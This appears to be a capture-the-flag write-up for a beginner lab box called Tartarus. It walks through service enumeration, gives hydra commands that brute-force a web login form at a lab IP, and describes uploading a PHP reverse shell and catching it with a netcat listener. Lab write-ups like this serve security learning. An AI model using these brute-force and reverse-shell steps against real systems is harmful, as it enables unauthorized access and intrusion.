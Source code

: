 ### Tartaus Writeup

>This is a beginner box based on simple enumeration of services and basic privilege escalation techniques.

- Scan the machine
- Check ftp with anon. login
    - Nothing interesting
- Check robots.txt
- Check /admin-dir
- wget userid and credentials.txt
- use hydra to rack username and password

Finding the username
```
hydra -L userid -P credentials.txt 10.10.191.122 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect username"
```

Finding the password
```
hydra -l enox -P credentials.txt 10.10.191.122 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect password"
```

- A page to upload content
- Use it go upload a php-reverse-shell and listen to the specified port on your machine
    - https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
    - Use your tun0 ip addr as the IP and specify an port
    - Upload the shell
    - Listen on the port in your machine
    - nc -nlvp <port>
    - Once uploaded you get access to the shell
